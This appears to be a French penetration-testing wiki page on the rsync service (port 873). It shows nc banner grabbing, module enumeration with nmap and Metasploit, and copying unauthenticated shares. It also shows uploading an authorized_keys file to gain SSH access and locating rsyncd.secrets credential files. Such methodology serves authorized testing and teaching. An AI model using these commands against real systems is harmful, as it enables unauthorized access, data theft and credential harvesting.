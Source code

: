 ## **Informations de base**

> **rsync** est un utilitaire pour transférer et synchroniser efficacement des fichiers entre un ordinateur et un disque dur externe et entre des ordinateurs en réseau en comparant les heures de modification et les tailles des fichiers. Il est couramment utilisé sur les systèmes d'exploitation de type Unix. L'algorithme rsync est un type de codage delta et est utilisé pour minimiser l'utilisation du réseau. Zlib peut être utilisé pour une compression de données supplémentaire, et SSH ou stunnel peut être utilisé pour la sécurité.

Source : [Wikipedia](https://en.wikipedia.org/wiki/Rsync).

**Port par défaut :** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Énumération

### Bannière et communication manuelle
```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **Énumérer les dossiers partagés**

**Un module rsync est essentiellement un partage de répertoire**. Ces modules **peuvent éventuellement être protégés par un mot de passe**. Cette option liste les modules disponibles et, éventuellement, détermine si le module nécessite un mot de passe pour y accéder\*\*:\*\*.
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
Notez qu'il est possible de configurer un nom partagé pour qu'il ne soit pas répertorié. Il peut y avoir quelque chose de **caché**.\
Notez qu'il peut y avoir des **noms partagés** répertoriés pour lesquels vous avez besoin de **justificatifs d'identité** différents pour y accéder. Ainsi, tous les noms répertoriés ne seront pas toujours accessibles et vous le remarquerez si vous recevez un message _**"Accès refusé"**_ en essayant d'y accéder.

### [**Brute force**](../generic-methodologies-and-resources/brute-force.md#rsync)

### Rsync manuel

Une fois que vous avez la **liste des modules**, vous avez plusieurs options différentes en fonction des actions que vous souhaitez effectuer et de la nécessité ou non d'une authentification. **Si aucune authentification n'est requise**, vous pouvez **répertorier** un dossier partagé :
```bash
rsync -av --list-only rsync://192.168.0.123/shared_name
```
Et **copiez** tous les **fichiers** sur votre machine locale en utilisant la commande suivante :
```bash
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
Ceci **transfère de manière récursive tous les fichiers du répertoire** `<shared_name>` sur la machine `<IP>` dans le répertoire `./rsync_shared` sur la machine locale. Les fichiers sont transférés en mode "archive", ce qui garantit que les liens symboliques, les périphériques, les attributs, les autorisations, les propriétaires, etc. sont préservés lors du transfert.

Si vous **avez des identifiants**, vous pouvez **lister/télécharger** un **nom partagé** en utilisant (le mot de passe sera demandé):
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
Vous pouvez également **uploader** du **contenu** en utilisant rsync (par exemple, dans ce cas, nous pouvons uploader un fichier _**authorized\_keys**_ pour obtenir l'accès à la boîte) :
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

Trouver le fichier de configuration rsyncd :
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
À l'intérieur du fichier de configuration, vous pouvez parfois trouver le paramètre _secrets file = /path/to/file_ et ce fichier peut contenir des noms d'utilisateur et des mots de passe autorisés à s'authentifier auprès de rsyncd.
